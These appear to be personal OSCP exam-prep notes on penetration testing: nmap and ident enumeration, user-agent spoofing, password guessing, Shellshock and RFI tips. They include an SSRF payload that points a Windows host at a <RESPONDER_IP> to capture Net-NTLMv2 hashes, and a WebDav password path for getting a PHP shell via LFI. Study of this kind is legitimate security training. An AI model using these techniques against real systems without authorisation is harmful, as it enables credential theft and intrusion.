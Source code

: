 ```yaml
---
description: Just some rough notes in preparation for the OSCP.
---
```


# OSCP Notes

### Enumeration

* Ensure you run FeroxBuster or GoBuster with file extensions identified throughout inital enumeration of the device.
* Personally I like running the following scans to perform enumeration:
  1. `nmap -sV -sC -p- --min-rate 1000 -T4 [IP] -oA Full-TCP-Scan`
  2. `nmap -sU --top-ports 1000 -T4 [IP] -oA Quick-UDP-Scan`
  3. `nmap -p[PORTS] --script=vuln [IP] -oA Vuln-Scan`
* If Ident is available then we may be able to enumerate users. While `nmap -sC` should successfully enumerate users as well, it is good to double check.&#x20;
  * Install ident-user-enum: `apt install ident-user-enum`
  * Run it against all identified ports: `ident-user-enum [IP] 22 53 113 5432 8080 1000`Iden

### Web Application

* If you are getting the following message `You are not a search engine. Permission denied.` when attempting to browse to robots.txt then set your user agent in Burp to the following:&#x20;
  * `User-Agent: Googlebot/2.1 (+http://www.googlebot.com/bot.html)`
* If a login page default password doesn't work then think of what a lazy admin would use (uppercase and lowercase). CeWL can be used here if you're running out of ideas.
* If a web application is vulnerable to SSRF and the host is Windows, you may be able to retrieve a Net-NTLMv2 hash. The following command assumes that the web server is running on TCP/8080:
  * `http://:8080/?url=http://127.0.0.1:8080/?url=http://<RESPONDER_IP>`
  * [This attack is explained amazingly in this blog post](https://blog.blazeinfosec.com/leveraging-web-application-vulnerabilities-to-steal-ntlm-hashes-2/).
* If a WebDav directory is discovered during enumeration then it should be noted that an LFI vulnerability could be used to obtain the password and upload a PHP shell. The following is an example of a Webdav password location:
  * `/var/www/html/webdav/passwd.dav`
  * [HackTricks has a great guide](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) on uploading a shell with Curl or other methods of exploitation.
* If /cgi-bin/ is identified then ensure you look for common file extensions like `.sh`
  * This directory exists when Apache gives a file over to bash or another scripting language.
  * There is an NSE script which exists to verify if Shellshock is detected.
* When testing[ Remote File Inclusion](../web-application/remote-file-inclusion-rfi.md) keep in mind that the port being tested matters.&#x20;
  * Use a common port such as 80 or 443 on your Python3 server when testing.

### SQL Injection (SQLi)

* Oracle SQLi - [This link](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html) is beyond useful. Ensure your syntax is correct with Oracle because it can be a pain.
